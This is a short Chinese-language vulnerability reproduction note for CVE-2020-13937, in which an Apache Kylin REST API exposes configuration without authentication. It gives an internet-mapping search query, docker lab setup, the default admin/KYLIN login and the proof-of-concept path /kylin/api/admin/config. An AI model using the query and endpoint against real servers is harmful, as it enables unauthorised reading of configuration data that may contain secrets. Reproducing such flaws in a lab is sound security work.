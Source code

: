# 

# Apache Kylin config 未授权配置泄露 CVE-2020-13937

## 漏洞描述

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息

## 网络测绘

```
app="APACHE-kylin"
```

## 环境搭建

```
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
```

打开后使用默认账号密码admin/KYLIN登录，出现初始界面即为成功

![image-20220525161044773](./images/202205251610838.png)

## 漏洞复现

漏洞验证POC

```
/kylin/api/admin/config
```

![image-20220525161140820](./images/202205251611885.png)
